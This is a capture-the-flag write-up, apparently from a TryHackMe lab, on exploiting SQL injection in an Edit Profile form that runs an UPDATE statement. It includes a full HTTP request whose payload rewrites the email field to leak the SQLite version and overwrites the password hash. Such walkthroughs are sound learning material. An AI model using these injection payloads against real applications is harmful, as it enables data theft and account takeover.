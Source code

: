 # Challenge 5: Update Statement

![Pasted image 20210803172027](Pasted%20image%2020210803172027.png)

The goal of this challenge is to exploit a SQL injection vulnerability in the `Edit Profile` form at `/sesqli5/proifle` to read the flag. This form allows you to edit the profile of the currently logged in user, presumably using an `UPDATE` statement. This `UPDATE` statement is vulnerable to SQL injection.

The `Edit Profile` form on `/sesqli5/profile` consists of three inputs: `nickName`, `email`, and `password`. Whether the submission of the `Edit Profile` form is successful or not, it returns you to `/sesqli5/home`. Browsing back to `/sesqli5/profile` though reveals the updated data within the inputs of the form.

When injecting `tgihf'` for the `nickName`, the application doesn't successfully update the record in the database as when `/sesqli5/profile` is subsequently visited, the nick name hasn't been updated to `tgihf'`. Similar with the `email` parameter. These indicate the presence of a SQL injection vunerability in both the `nickName` and `email` parameters.

It appears the underlying SQL `UPDATE` statement looks like this:

```sql
UPDATE $TABLE_NAME SET nickName = '$NICK_NAME', email = '$EMAIL', password = '$PASSWORD_HASH' WHERE $IDENTIFYING_CONDITION
```

The following injection shows that the underlying database is SQLite and its version is 3.22.0.

```http
POST /sesqli5/profile HTTP/1.1
Host: 10.10.109.88:5000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 162
Origin: http://10.10.109.88:5000
DNT: 1
Connection: close
Referer: http://10.10.109.88:5000/sesqli5/profile
Cookie: session=.eJy9z7FqAzEMBuB38ZzBOkln382l0CVb5yDbMphecqmdUkrIu9fXlNKxUzfp_0Hou5qm7XUpcEhyETNfzfPTg5lhZ_QoZTGzMTtzkqP26bHKKa6lbUmJL_t72reztHZe62Vf--5HywOzBbKevsv3taZeUfSYnY2SUSBOEimSS8NErDY7n11CFhcnIPEKHkaUqAN6gaA6Qtiu1TWXRbcfDdgeNFmkfph5YHvb_WDemtZDSV-Qe8b_AYzKUUaHCTDgCOATUwdlQNHQ3Ra6BkN2DtQB0gCBEuTkCTLjJH8F8i_g7RPqGYUc.YQqYFg.hBU1GBPvrJ7J_k0Kb6c4JLNtkGA
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

nickName=tgihf',email=(sqlite_version()),password='d74ff0ee8da3b9806b18c877dbf29bbde50b5bd8e4dad7a3a725000feb82e8f1';--+&email=tgihf%40tryhackme.com&password=pass
```
